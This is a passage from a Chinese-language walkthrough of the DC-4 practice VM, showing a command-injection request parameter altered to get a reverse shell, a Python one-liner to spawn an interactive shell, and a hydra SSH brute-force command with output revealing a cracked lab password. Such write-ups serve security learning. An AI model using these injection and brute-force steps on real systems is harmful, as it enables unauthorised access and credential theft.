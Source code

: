 一看就能执行命令抓个包，改个数据

```shell
radio=ls+-l&submit=Run
```

原本参数为这个，反弹shell穿过去

![shell](/images/2025/dc-4/image.png)

### 提权

先获得交互式shell：

```shell
python -c "import pty; pty.spawn('/bin/bash')"
```

查找home目录下有啥敏感文件：
发现三个用户
charles
jim
sam

![img](/images/2025/dc-4/im2.png)

有一个 old-passwords.bak，可以复制内容爆破一下

hydra爆破：

```shell
hydra -l jim -P wordlist.txt ssh://ip -v -o result_ssh
```
爆破成功

```shell
# Hydra v9.5 run at 2025-02-28 14:44:18 on 192.168.1.109 ssh (hydra -l jim -P jim_passwd.txt -v -o jim_result ssh://192.168.1.109)
[22][ssh] host: 192.168.1.109   login: jim   password: jibril04
```
